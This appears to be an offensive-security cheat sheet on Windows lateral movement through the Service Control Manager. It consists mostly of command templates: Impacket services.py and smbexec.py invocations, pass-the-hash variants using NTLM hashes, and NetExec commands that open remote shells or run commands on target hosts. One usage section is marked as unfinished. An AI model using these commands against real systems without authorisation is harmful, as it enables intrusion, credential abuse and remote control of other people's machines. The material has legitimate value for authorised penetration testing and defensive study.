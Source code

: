 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - service-control-manager
  - staying-off-the-land
  - living-off-the-foreign-land
---
```

# Unix Shell

## 01 - Impacket

### 1.1 - Services

#### 1.1.1 - Help Menu

```
$ services.py -h
Impacket v0.11.0 - Copyright 2023 Fortra

usage: services.py [-h] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-target-ip ip address]
                   [-port [destination port]]
                   target {start,stop,delete,status,config,list,create,change} ...

Windows Service manipulation script.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  {start,stop,delete,status,config,list,create,change}
                        actions
    start               starts the service
    stop                stops the service
    delete              deletes the service
    status              returns service status
    config              returns service configuration
    list                list available services
    create              create a service
    change              change a service configuration

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid
                        credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If ommited it will use whatever was specified as target. This is useful when target
                        is the NetBIOS name and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```

#### 1.1.2 - Usage

TODO: Fill this info

```
$ services.py [<domain>/]<username>:<password>@<IP> [-codecs <codec>] list
```

Pass the Hash

```
$ services.py [<domain>/]<username>@<IP> -hashes <ntlm_hash> list

$ services.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<NT> list

$ services.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT> list
```

### 1.2 - SMBExec

Authenticate via impacket script with `smbexec`.

```
$ smbexec.py [<domain>/]<username>:<password>@<IP> -shell-type <cmd.exe | powershell.exe> [-codecs <codec>]
```

Pass the Hash

```
$ smbexec.py <username>@<IP> -hashes <ntlm_hash>

$ smbexec.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ smbexec.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>
```

## 02 - NetExec

```
$ netexec smb <IP> --exec-method smbexec -u "<username>" -p "<password>" [-d <domain> | --local-auth]

$ netexec smb <IP> --exec-method smbexec -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

---
## References

- [Hacktricks: SmbExec/ScExec](https://book.hacktricks.xyz/windows-hardening/lateral-movement/smbexec)

- [nv2lt: Windows Lateral Movement with SMB, PsExec and Alternatives](https://nv2lt.github.io/windows/smb-psexec-smbexec-winexe-how-to/)